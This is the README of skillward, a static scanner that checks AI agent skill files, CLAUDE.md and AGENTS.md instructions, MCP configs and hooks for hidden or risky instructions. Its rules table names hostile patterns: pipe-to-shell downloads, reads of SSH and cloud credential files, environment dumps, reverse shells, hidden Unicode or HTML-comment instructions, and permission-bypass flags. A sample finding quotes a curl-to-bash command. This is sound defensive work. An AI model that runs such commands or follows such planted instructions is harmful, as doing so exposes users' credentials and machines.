

# skillward

Static scanner for AI agent instruction files — `SKILL.md` skills, `CLAUDE.md`, `AGENTS.md`, MCP configs, Claude Code settings and hooks, plus Cursor, GitHub Copilot, Gemini CLI, Windsurf, Cline and Kiro rules.

**skillward shows what you agree to when you give an agent a skill, an MCP server or someone else's repository — and makes sure it doesn't change behind your back.**



Skills and instruction files aren't documentation: they are commands an agent executes with your permissions. Think of skillward as the permissions screen before you install an app, not an antivirus:

- **It decides nothing for you.** Every finding is a file, a line and a reason; you (or CI, via `--fail-on`) decide.
- **Everything that steers the agent:** skills, `CLAUDE.md` / `AGENTS.md` of a repo you open, MCP servers, hooks, settings, plugins.
- **Not just once:** `lock` / `verify` pin what you reviewed and fail when it changes, so a trusted skill can't quietly turn into something else on update.
- **No malice required:** risky-but-honest patterns (`--yolo`, a vendor's `curl | sh` installer) are shown too, at a lower severity.

It flags hidden text, remote code execution, credential access, permission bypasses, persistence and concealment before an agent ever reads them. Antivirus looks for known malicious *code*; skillward looks at the *instructions*. In our scan of ~2,900 public repositories (October 2026), Windows Defender quarantined 4 files from the ClawHavoc skill-malware campaign — the ones that carried their payload inline. It left 160 more copies in place, whose instructions only point at the payload (a password-protected download, a paste-site command); skillward flags those. Its checks for these two shapes were written after studying the campaign.

## Quick start

Requires Node.js 22.12+.

> **The npm package is temporarily unavailable.** Until it is back, install from source and use `skillward` wherever this README says `npx skillward`; in the GitHub Action, set `version: local`.
>
> ```sh
> git clone https://github.com/antshkvr/skillward && cd skillward
> npm ci && npm run build && npm install -g .
> ```

**Before you open someone else's repository or install a skill**, see what it would let the agent do:

```sh
npx skillward explain path/to/their-repo --untrusted
```

`--untrusted` makes sure the repository's own `skillward.config.json`, `skillward-ignore` comments and `.gitignore` can't hide anything. Run it before you start an agent there: once a session starts, the agent has already read the repository's `CLAUDE.md`.

**Pin your own setup** — `~/.claude`, the MCP servers in `~/.claude.json`, and Cursor, Gemini CLI, Windsurf, Cline, Kiro and Codex user config — and get told when it changes:

```sh
npm install -g skillward
skillward lock --global
```

Then add a `SessionStart` hook to `~/.claude/settings.json`, so Claude Code checks it every time it starts:

```json
{
  "hooks": {
    "SessionStart": [
      {
        "matcher": "startup",
        "hooks": [{ "type": "command", "command": "skillward verify --global --no-color >&2 || exit 2" }]
      }
    ]
  }
}
```

and run `skillward lock --global` once more, since you just changed a locked file. When nothing changed, the session starts as usual. When a plugin updated itself, a tool added an MCP server or a hook script was edited, you see the diff and the findings in it before your first prompt. Everything goes to stderr on purpose: Claude Code adds a `SessionStart` hook's stdout to the agent's context, and the report quotes exactly the text you haven't reviewed yet; exit code `2` shows stderr to you and not to the agent. Review the change, then `skillward lock --global`.

**In CI**, use the [GitHub Action](#github-action), or `npx skillward scan --fail-on high`.

## Safety guarantees

- The scanner **never executes, imports or loads** scanned content, and makes **no network requests**.
- Symbolic links are never followed.
- Everything printed from scanned files is escaped: invisible and control characters are shown as `<U+202E>`, so the report itself can't hide text or inject terminal escape sequences.
- Snippets are short and truncated; secrets, tokens and encoded blobs are never printed in full.
- Hostile input can't hang a scan: every rule is tested to stay linear on crafted long lines.

Found a security bug in skillward itself? Please report it privately — see [SECURITY.md](SECURITY.md).

## Usage

```sh
npx skillward scan                 # current directory
npx skillward scan path/to/project
npx skillward scan .claude/skills/pdf/SKILL.md   # one skill
npx skillward scan --global        # also ~/.claude, ~/.claude.json MCP servers, other agents' user config
npx skillward scan --format sarif --output skillward.sarif
npx skillward scan --fail-on medium

npx skillward explain              # what each skill / MCP server / config lets the agent do
npx skillward explain path/to/their-repo --untrusted   # someone else's code: their config and ignores don't count

npx skillward lock                 # pin current agent files in skillward.lock
npx skillward verify               # diff against skillward.lock and scan what changed
npx skillward lock --global        # pin your own ~/.claude and MCP servers (in ~/.skillward/)
npx skillward verify --global      # did a plugin update or a tool change them since?
npx skillward rules                # list rules
```

### `scan [path]`

| Option | Default | |
|---|---|---|
| `--global` | off | Also scan your user-level agent configuration: `~/.claude` (`CLAUDE.md`, `settings*.json`, `skills/`, `agents/`, `commands/`, `plugins/`), the `mcpServers` sections of `~/.claude.json` (its history is never read), and Cursor, Gemini CLI, Windsurf, Cline, Kiro and Codex user files (see [What gets scanned](#what-gets-scanned)) |
| `--format text\|json\|sarif` | `text` | Output format |
| `--output <file>` | stdout | Write the report to a file |
| `--fail-on info\|low\|medium\|high` | `high` | Lowest severity that makes the exit code `1` |
| `--config <file>` | `skillward.config.json` in the scan root | Config file |
| `--untrusted` | | Someone else's code: don't read the scanned folder's `skillward.config.json`, `skillward-ignore` comments or `.gitignore` files (an explicit `--config` still applies) |
| `--no-inline-ignore` | | Ignore `skillward-ignore` comments only |
| `--files-from <file>` | | Only report findings in the listed files (one path per line, relative to the current directory; `#` comments allowed) — e.g. the output of `git diff --name-only` |
| `--baseline <file>` | | Report only findings that are not in this baseline (see [Baseline](#baseline)) |
| `--write-baseline <file>` | | Record the current findings as the baseline and exit `0` |
| `--no-color` | | Disable colors (also `NO_COLOR`) |

### `explain [path]`

The permissions-screen view: the same findings as `scan`, grouped per target into what it lets the agent do.

```
.claude/skills/setup  skill · 3 files · 1 script
  HIGH    runs code from the internet               SKILL.md:12 · scripts/install.sh:3
  MEDIUM  turns approvals off                       SKILL.md:30
  LOW     runs automatically                        hooks/hooks.json:9
  not seen: remote control, secrets, network, persistence, destructive, concealment

14 more target(s) with nothing notable (--all lists them).

15 target(s) — runs code from the internet: 1 · turns approvals off: 1 · runs automatically: 1
```

Capabilities: runs code from the internet · gives a remote host control · turns approvals off · reads credentials or secrets · sends data out or contacts unusual hosts · persists after the session · can destroy data · hides things from you · runs automatically. Each shows its worst severity and where it appears.

`explain` is informational: it exits `0` once the summary is printed (`2` on errors) — gate CI with `scan --fail-on`. Options: `--global`, `--all` (also list targets with nothing notable), `--untrusted`, `--format text|json` (JSON format version 1), `--output`, `--config`, `--no-inline-ignore`, `--no-color`.

**Exit codes:** `0` — clean or below threshold; `1` — findings at or above `--fail-on`; `2` — run error (bad path, bad config, a rule crashed).

### `lock [path]` and `verify [path]`

`lock` writes `skillward.lock`: a sha256 of every file of every discovered target. It also keeps copies of the locked text files in `.skillward/snapshots/` (content-addressed, secrets masked), so `verify` can show a real diff. Commit both. `--no-snapshots` skips the copies; changes are still detected, just without a text diff. The project's `skillward.config.json` decides what is locked: paths in its `ignore` are left out, and `lock` and `verify` say so.

```json
{
  "version": 1,
  "entries": [
    {
      "path": ".claude/skills/pdf-tools",
      "kind": "skill",
      "source": "github:owner/repo@ref",
      "files": { "SKILL.md": "sha256:…", "scripts/run.py": "sha256:…" },
      "lockedAt": "2026-10-19T00:00:00Z"
    }
  ]
}
```

`source` is optional and maintained by hand; `lock` preserves it, and `lockedAt` only changes for entries whose files changed.

`verify` lists added, removed and changed files with a diff, then scans **only the added and changed files**. Exit code `0` if everything matches the lock, `1` on any drift (review it, then run `lock` again), `2` if there is no lockfile. Options: `--global`, `--format text|json`, `--output`, `--fail-on`, `--config`, `--no-inline-ignore`, `--no-color`.

Diffs and snapshots never contain secrets: provider tokens, secret-looking values of secret-named keys, JWTs and private keys are masked to their first 4 characters and length (`ghp_…[40 chars]`), as in findings.

**Your own configuration.** `lock --global` pins what applies to every project — `~/.claude` (`CLAUDE.md`, settings, skills, agents, commands, plugins, the scripts hooks run), the MCP servers in `~/.claude.json`, and the other agents' user files `scan --global` reads — in `~/.skillward/skillward.lock`, with snapshots in `~/.skillward/snapshots/`. `verify --global` then shows what changed since: a plugin that updated itself, an MCP server a tool added, an edited hook script. Of `~/.claude.json` only the `mcpServers` sections are locked, so history and counters don't count as drift. `--global` takes no path and reads no project config. The lock lives on the same machine as what it pins: it catches changes made by updates and tools, not by someone who can also rewrite `~/.skillward`. To run it on every Claude Code start, see the `SessionStart` hook in [Quick start](#quick-start).

## What gets scanned

| Kind | Files |
|---|---|
| `skill` | A folder with `SKILL.md` and every file inside it (scripts, templates, references), except the settings, MCP configs and plugin manifests below, which are always targets of their own |
| `instructions` | `CLAUDE.md`, `CLAUDE.local.md`, `AGENTS.md` at any depth; `.claude/commands/**/*.md`, `.claude/agents/**/*.md`; `commands/` and `agents/` of plugins |
| `mcp-config` | `.mcp.json`; with `--global`, the `mcpServers` sections of `~/.claude.json` |
| `settings` | `.claude/settings.json`, `.claude/settings.local.json`, plugin `hooks/hooks.json` |
| `plugin-manifest` | `.claude-plugin/plugin.json`, `.claude-plugin/marketplace.json` |

Other agents, with the same rules:

| Agent | Files |
|---|---|
| Cursor | `.cursorrules`, `.cursor/rules/**/*.mdc`, `.cursor/commands/*.md`, `.cursor/mcp.json`, `.cursor/hooks.json` (and the scripts its hooks run) |
| GitHub Copilot / VS Code | `.github/copilot-instructions.md`, `.github/instructions/*.instructions.md`, `.github/prompts/*.prompt.md`, `.github/chatmodes/*.chatmode.md`, `.github/agents/*.agent.md`, `.vscode/mcp.json` |
| Gemini CLI | `GEMINI.md` and the context files named by `context.fileName`, `.gemini/settings.json` (MCP servers, hooks and the scripts they run, `tools.allowed`, `trust`), `.gemini/commands/**/*.toml`, extensions in `.gemini/extensions/*/` (`gemini-extension.json` MCP servers, `GEMINI.md`, `commands/`) |
| Windsurf | `.windsurfrules`, `.windsurf/rules/*.md`, `.windsurf/workflows/*.md` |
| Cline | `.clinerules` (file or folder), hook scripts in `.clinerules/hooks/` (`PreToolUse`, `TaskStart`, …, or `.ps1`) |
| Kiro | `.kiro/steering/*.md`, `.kiro/settings/mcp.json` |
| Codex | `AGENTS.md`, `.codex/hooks.json` (and the scripts its hooks run), `.codex/config.toml` (MCP servers, hooks, `notify`, approval and sandbox settings) |
| Others | skills in any folder with a `SKILL.md` (`.agents/skills`, `.codex/skills`, `.cursor/skills`, …) |

With `--global`, the same agents' user-level configuration, and only these paths in the home directory:

| Agent | Files |
|---|---|
| Claude Code | `~/.claude` (`CLAUDE.md`, `settings*.json`, `skills/`, `agents/`, `commands/`, `plugins/`), the `mcpServers` sections of `~/.claude.json` |
| Cursor | `~/.cursor/mcp.json`, `~/.cursor/hooks.json` (hook scripts resolve from `~/.cursor/`), `~/.cursor/commands/`, `~/.cursor/skills/` |
| Gemini CLI | `~/.gemini/settings.json`, `~/.gemini/GEMINI.md` (and `~/.gemini/<name>` for the names in its `context.fileName`, which then count in the project too), `~/.gemini/commands/`, `~/.gemini/extensions/` |
| Windsurf | `~/.codeium/windsurf/mcp_config.json`, `memories/global_rules.md`, `global_workflows/` |
| Cline | `~/.cline/data/settings/cline_mcp_settings.json` (and the older copy in VS Code's `globalStorage/saoudrizwan.claude-dev/settings/`), `~/.cline/rules/`, `~/.cline/workflows/`, `~/.cline/skills/`, `~/Documents/Cline/Rules/` and `Workflows/`, hook scripts in `~/Documents/Cline/Hooks/` |
| Kiro, Codex, shared | `~/.kiro/settings/mcp.json`, `~/.kiro/steering/`; `~/.codex/AGENTS.md`, `~/.codex/skills/`, `~/.codex/hooks.json`, `~/.codex/config.toml`; `~/.agents/AGENTS.md`, `~/.agents/skills/` |

Scripts that hooks run (`node .github/setup.js`, `"$CLAUDE_PROJECT_DIR"/.claude/hooks/check.sh`, `${CLAUDE_PLUGIN_ROOT}/hooks/run.sh`, `"$(git rev-parse --show-toplevel)/.codex/hooks/x.py"`) are added to the hook file's target when they live inside the scanned folder (a script inside a skill folder stays in the skill): their content is scanned, `lock` pins them, and SW017 flags the ones that can't be reviewed.

`.gitignore` files are respected — except for agent configuration (`.claude/`, `.claude-plugin/`, `CLAUDE*.md`, `AGENTS.md`, `.mcp.json`), which is often gitignored on purpose but still loaded by the agent. `node_modules`, VCS folders and `.skillward/` are never entered. Binary files and files over 2 MB are skipped and listed in the report.

## Rules

| ID | Name | Severity | Catches |
|----|------|----------|---------|
| SW001 | hidden-unicode | high | Zero-width characters, bidi overrides (Trojan Source), Unicode tag characters (the hidden text is decoded in the message), variation-selector smuggling. Emoji sequences, Persian/Indic joiners and RTL marks are not reported. |
| SW002 | html-comment-instructions | medium | Instructions for the agent inside `<!-- … -->` in markdown — invisible when rendered, read by the agent. `high` when it tells the agent to send secrets out or hide what it does. |
| SW003 | encoded-payload | medium | Long base64/hex blobs (decoded safely; high when they decode to commands/URLs), `base64 -d \| sh`, `powershell -enc`, embedded private keys. |
| SW004 | pipe-to-shell | high | `curl … \| bash`, `wget -O- … \| sh`, `bash <(curl …)`, `sh -c "$(curl …)"`, `iwr … \| iex` and variants. `curl … \| jq` is fine. |
| SW005 | secret-path-access | high | `~/.ssh` keys, `~/.aws/credentials`, cloud/kube/Docker credentials, `.netrc`, `.git-credentials`, registry tokens, `.env`, the Keychain, browser password stores, wallets. Graded by evidence: a read/send on the same line raises it; public keys and `ssh -i key` are not alarms. |
| SW006 | env-dump | medium | Whole-environment dumps: `env`, `printenv`, `JSON.stringify(process.env)`, `print(os.environ)`, `/proc/self/environ`, `Get-ChildItem Env:`. High next to network egress. |
| SW007 | suspicious-egress | high | Bare public IPs, paste sites, request catchers (webhook.site, …), tunnels (ngrok, trycloudflare, …), URL shorteners, chat webhooks, dynamic DNS. |
| SW008 | permission-bypass | high | `--dangerously-skip-permissions`, `bypassPermissions`, `--yolo`, unrestricted `Bash(*)` allow rules, "skip confirmations / auto-approve" (EN/RU). |
| SW009 | concealment | high | "Don't tell the user", "do it silently", "hide the output from the user" (EN/RU). |
| SW010 | fake-prerequisite | medium | "Before using this skill, download and run …" with an executable URL; asking the user to paste a command into their terminal. High when the download is a password-protected archive (the ClawHavoc malware shape). |
| SW011 | unpinned-mcp | medium | MCP servers via `npx`/`uvx`/`bunx`/`pnpm dlx`/`pipx run`/`docker run` without a pinned version. |
| SW012 | remote-mcp | low | Inventory of remote (http/sse) MCP servers; plain `http://` or credentials in the URL raise it. |
| SW013 | hook-command | medium | Every command hook and the status line command; high with network access or secret paths. |
| SW014 | persistence | high | Writes to shell rc files, crontab, launchd, systemd, Windows autoruns, `authorized_keys`, git hooks, `~/.claude` settings and other `CLAUDE.md`/`AGENTS.md`. |
| SW015 | dangerous-script | high | In scripts and code blocks: eval/exec of downloaded or decoded code, `rm -rf ~`, disk wiping, download-then-execute, Windows LOLBins, encoded PowerShell, reverse shells. |
| SW016 | secret-in-config | high | Credentials written into agent configuration: AWS, GitHub, GitLab, Slack, OpenAI, Anthropic, Stripe, Google, npm, Hugging Face and other provider tokens, Slack/Discord webhook URLs (high); secret-looking values for secret-named keys and `Authorization: Bearer …` (medium). Common in `settings.local.json`, which saves allowed commands verbatim. Values are never printed — only the first 4 characters and the length. |
| SW017 | hook-script | high | A hook runs a script nobody can review: obfuscated (javascript-obfuscator, packers, escape-encoded strings) or a binary (high), over 1 MB or minified into very long lines (medium). Readable hook scripts are scanned by all the other rules. |

The severity in the table is the rule's default; individual findings go up or down with the evidence. Each finding also has a `confidence`. Phrase rules (SW002, SW008, SW009, SW010) are heuristics in English and Russian: a low-confidence finding is worth a look, not proof of malice. Exact behavior per rule is documented in [SPEC.md](SPEC.md#6-rule-catalog-v01).

## Reading findings

Severities were calibrated on a corpus of ~2,900 public repositories with agent configuration:

| Severity | Means | What to do |
|---|---|---|
| **high** | Something the agent would actually do that you'd want to block: run a downloaded script, turn approvals off, read and send a secret, persist on the machine, hide its actions, decode and run a payload. | Read it before installing or keeping the skill. The default `--fail-on high` fails CI on these. |
| **medium** | A risky pattern worth a review: a vendor's official `curl … \| sh` installer, a hook that runs inline shell, an unpinned MCP server, a bypass flag mentioned in prose rather than in a command, "don't ask for confirmation" in an autonomous workflow. | Check it once; suppress it with a reason if it's intended. |
| **low** | The same patterns in documentation: CLI option tables, script comments, quoted examples, credential files mentioned without a read, hooks that start a script from the project. | Inventory. Useful when auditing third-party skills. |
| **info** | Warnings and protections: "never run `curl \| sh`", deny lists, guard hooks that block dangerous commands, detectors. | Nothing — listed so you can see what was considered. |

`confidence` says how sure the match is about what it found; severity says how bad it is if it is right. Offensive-security skills (pentest cheat-sheets, privilege-escalation guides) legitimately contain high findings — installing one is a choice, not an accident. When auditing someone else's skills, use `--untrusted` so their config, `skillward-ignore` comments and `.gitignore` can't hide anything.

## Suppressing findings

For security docs that show attacks on purpose, add a comment with the rule IDs and a reason:

```markdown
<!-- skillward-ignore SW004: example of the attack we block -->
```

- On its own line, it applies to the next non-blank line — or to the whole fenced code block that follows.
- At the end of a line (`curl … | sh  # skillward-ignore SW004: vendored installer`), it applies to that line. Any comment syntax works: `<!-- -->`, `#`, `//`, `/* */`.
- `skillward-ignore-file SW001: reason` applies to the whole file.

Rule IDs are mandatory — there is no "ignore everything". Suppressed findings don't affect the exit code but are **always listed** in the report (and as SARIF `suppressions`), because a malicious skill can add these comments too. When auditing third-party skills, pass `--untrusted`.

To exclude whole paths, use `ignore` in the config.

## Baseline

Adding skillward to an existing repository? Record what is there today and fail only on new findings:

```sh
npx skillward scan --write-baseline skillward.baseline.json   # once; review and commit it
npx skillward scan --baseline skillward.baseline.json         # in CI: exit 1 only on new findings
```

- A finding matches by rule, file and the text around the match — not the line number, so edits elsewhere in the file don't resurface it. Changing the matched line itself, or adding a second copy of it, is reported as new.
- The file stores rule IDs, paths, lines and hashes — never snippets, so it doesn't copy the secrets it covers.
- Known findings don't affect the exit code but are counted in the report (`baselined` in JSON, SARIF `baselineState: "unchanged"` with an `external` suppression). Entries that no longer match are reported too; refresh with `--write-baseline` once they're fixed.
- Paths are relative to the scan root: use the same `[path]` (and `--global`) when writing and reading the baseline.
- Never pass someone else's baseline when auditing their skills — like `skillward-ignore` comments, it hides findings by design.

## Config

`skillward.config.json` in the scan root (or `--config <file>`):

```json
{
  "ignore": ["docs/security-examples/**"],
  "rules": { "SW012": "off", "SW006": "high" },
  "failOn": "high",
  "inlineIgnore": true
}
```

- `ignore` — gitignore-style patterns relative to the scan root.
- `rules` — `"off"` or a severity that replaces the rule's severity.
- `failOn` — default for `--fail-on`; the flag wins.
- `inlineIgnore` — honour `skillward-ignore` comments (default `true`).

A config can hide findings, so the text report always says what the one in use turns off or ignores, and JSON reports include it as `config`. A repository you didn't write can ship its own `skillward.config.json`: scan it with `--untrusted`, which doesn't read it.

## Output formats

### JSON

`--format json` produces a versioned report (`"version": 1`). Breaking changes bump the version; new fields may be added.

```json
{
  "version": 1,
  "tool": { "name": "skillward", "version": "0.1.4" },
  "root": "/abs/path/to/project",
  "config": { "path": null, "untrusted": false, "rules": {}, "ignore": [], "inlineIgnore": true },
  "summary": {
    "targets": 3, "files": 5, "findings": 1, "suppressed": 0, "baselined": 0,
    "bySeverity": { "info": 0, "low": 0, "medium": 0, "high": 1 },
    "failOn": "high", "failed": true
  },
  "targets": [{ "kind": "skill", "path": ".claude/skills/deploy", "files": [".claude/skills/deploy/SKILL.md"] }],
  "findings": [{
    "ruleId": "SW004", "severity": "high", "confidence": "high",
    "file": ".claude/skills/deploy/SKILL.md", "line": 9, "column": 1,
    "message": "Executes code fetched from the network (remote download piped into a shell). …",
    "snippet": "curl -fsSL https://example.invalid/install.sh | bash"
  }],
  "suppressed": [],
  "baselined": [],
  "skipped": [{ "path": ".claude/skills/deploy/logo.png", "reason": "binary file" }],
  "errors": []
}
```

Columns are 1-based, in UTF-16 code units. Suppressed findings carry a `suppression: { ruleIds, reason, line }` object. `verify --format json` wraps this report: `{ "version": 1, "clean", "config", "changes": [...], "targets": { "added", "removed" }, "scan": <report or null> }`.

### SARIF

`--format sarif` emits SARIF 2.1.0 for GitHub code scanning. Paths are relative to the current directory (run it from the repository root), files outside it (like `~/.claude`) get absolute `file://` URIs. Levels: high → `error`, medium → `warning`, low/info → `note`. Rules carry no `security-severity`: GitHub would show a rule's score on every alert of that rule, so a low documentation mention would read "High"; without it, each alert shows its own level.

Or use the GitHub Action below, which does this for you.

## GitHub Action

```yaml
name: skillward
on:
  pull_request:
  push:
    branches: [main]

permissions:
  contents: read
  security-events: write   # for the code scanning upload

jobs:
  scan:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
      - uses: antshkvr/skillward@<commit-sha> # v0.1.4 — pin the SHA of the v0.1.4 tag
        with:
          fail-on: high
```

On `pull_request` events only the files the PR adds or modifies are reported (`only-changed: auto`); on pushes the whole repository is scanned. Results go to the **Security → Code scanning** tab and to the job summary. Code scanning ignores SARIF suppressions, so inline-suppressed and baselined findings are left out of the upload instead of showing up as open alerts; the job summary still lists them, and the `sarif-file` output keeps them with `suppressions` for other SARIF tools.

| Input | Default | |
|---|---|---|
| `path` | `.` | Directory to scan |
| `version` | `0.1.4` | Exact skillward version from npm, or `local` to build from the action checkout. Ranges and `latest` are refused. |
| `fail-on` | `high` | `info`, `low`, `medium`, `high`, or `never` (report only) |
| `only-changed` | `auto` | `auto` (pull requests), `true`, `false` |
| `config` | | Config file path |
| `baseline` | | Baseline file path: only findings not in it fail the job |
| `upload-sarif` | `true` | Upload to code scanning. Private repositories need GitHub Advanced Security — set `false` otherwise. See forks below |
| `sarif-file` | `skillward.sarif` | Where to write the report |
| `category` | `skillward` | Code scanning category |
| `node-version` | `22` | Node.js for the run |

Outputs: `sarif-file`, `exit-code`, `findings` (active findings count: not suppressed, not in the baseline). The job fails after the upload, so alerts are visible even when it fails. Pin the action by commit SHA, like any third-party action.

**Pull requests from forks** run with a read-only token, and GitHub may refuse the code scanning upload. The action doesn't let a refused upload fail the job on a fork PR: the report is still in the job summary, and `fail-on` still gates. To skip the upload on fork PRs altogether:

```yaml
        with:
          upload-sarif: ${{ github.event.pull_request.head.repo.full_name == github.repository || github.event_name != 'pull_request' }}
```

Don't switch to `pull_request_target` to get a writable token: it would run with the base repository's permissions on code from the fork.

## How it compares

[Snyk Agent Scan](https://github.com/snyk/agent-scan) (formerly `mcp-scan` by Invariant Labs) connects to your MCP servers — it starts stdio servers by running the commands in their configs — and sends tool descriptions, MCP configs and skill content to Snyk's API for analysis; it needs a Snyk API token. That lets it see what a server actually serves at run time, which skillward can't.

skillward reads files and nothing else: it never starts a server or runs a command, makes no network requests and needs no account, so it is safe to point at a repository you haven't decided to trust. It also covers what steers the agent besides MCP servers and skills — `CLAUDE.md` / `AGENTS.md`, hooks and the scripts they run, settings, other agents' rule files — and pins all of it with `lock` / `verify`.

They answer different questions and work well together: skillward before you trust a repository or a config, a run-time scanner (in a sandbox, for untrusted servers) once you do. (Based on Snyk Agent Scan's README, October 2026.)

## Development

```sh
npm install
npm test               # vitest
npm run lint           # eslint + tsc
npm run build          # → dist/
npm run fix:invisible  # turn raw invisible characters in sources back into \u escapes
npx tsx src/cli.ts scan <path>
```

A new rule is a module in `src/rules/`, registered in `src/rules/index.ts`, with at least two `bad` and two `good` fixtures in `test/fixtures/<ruleId>/` and a unit test. Fixtures under `bad/` are inert test data with deliberately dangerous patterns (`example.invalid`, `203.0.113.x`, `FAKE_KEY_…`) — never run them. In per-line loops use `execAll` from `src/text.ts`, not `String.prototype.matchAll` (it recompiles the regex on every call). PowerShell download-and-execute command names belong in `src/rules/data/vocabulary.json` (use `vocab()`), not in code: antivirus ML flags shipped JavaScript that contains them. See [SPEC.md](SPEC.md) and [CONTRIBUTING.md](CONTRIBUTING.md).

**Tuning against real data.** `scripts/corpus/` collects public agent configs from GitHub into a directory outside the repo (shallow sparse clones of just the files skillward reads — nothing is executed) and scans them with audit settings:

```sh
npm run corpus:discover            # candidates from sources.json (needs `gh` logged in)
npm run corpus:fetch               # sparse clones → ../skillward-corpus
npm run corpus:scan                # results/, summary.md, review-medium.md
npm run corpus:pipeline -- --dir ~/corpus   # fetch + scan per repo, keeps only results (full runs on a VM)
npm run corpus:recheck -- --rule SW005 --severity high   # one rule, before/after, grouped samples
npx tsx scripts/corpus/profile.ts --repo owner/name --rule SW003   # slowest files for a rule
npx tsx scripts/corpus/sample.ts --severity high --n 100 --seed 1   # random sample to label; --report <name> for precision, --from/--agree for a second rater
```

A false positive found this way becomes a `good` fixture.

**Releasing.** Bump the version in `package.json` and the `version` default in `action.yml`, add a `## x.y.z` section to `CHANGELOG.md`, commit, then push a `vX.Y.Z` tag. The [release workflow](.github/workflows/release.yml) checks that all four agree and publishes to npm with provenance via trusted publishing (no npm token in the repo).

## License

[MIT](LICENSE)
